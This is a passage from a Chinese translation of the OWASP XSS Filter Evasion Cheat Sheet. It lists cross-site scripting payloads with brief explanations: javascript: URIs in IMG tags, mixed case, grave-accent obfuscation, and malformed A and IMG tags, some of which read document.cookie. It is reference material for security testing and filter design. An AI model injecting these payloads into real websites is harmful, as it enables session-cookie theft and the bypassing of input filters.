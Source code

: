 ```
<IMG SRC=javascript:alert('XSS')>
```

### 不区分大小写的 XSS 攻击向量[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#case-insensitive-xss-attack-vector)

```
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

### HTML 实体[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#html-entities)

为此需要分号：

```
<IMG SRC=javascript:alert("XSS")>
```

### 重音混淆[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#grave-accent-obfuscation)

如果您需要同时使用双引号和单引号，您可以使用重音符号来封装 JavaScript 字符串 - 这也很有用，因为许多跨站点脚本过滤器不知道重音符号：

```
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```

### 格式错误的 A 标签[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#malformed-a-tags)

跳过 HREF 属性并进入 XXS 的肉... 由 David Cross 提交 \~ 在 Chrome 上验证

```
\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>
```

或者 Chrome 喜欢为您替换丢失的引号......如果您遇到困难，只需将它们关闭，Chrome 会将它们放在正确的位置并修复您在 URL 或脚本上丢失的引号。

```
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
```

### 格式错误的 IMG 标签[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#malformed-img-tags)

最初由 Begeek 发现（但已清理并缩短以在所有浏览器中工作），此 XSS 向量使用宽松的渲染引擎在 IMG 标记中创建我们的 XSS 向量，该标记应封装在引号中。我认为这最初是为了纠正草率的编码。这将使正确解析 HTML 标签变得更加困难：

```
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```

### 来自CharCode[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#fromcharcode)

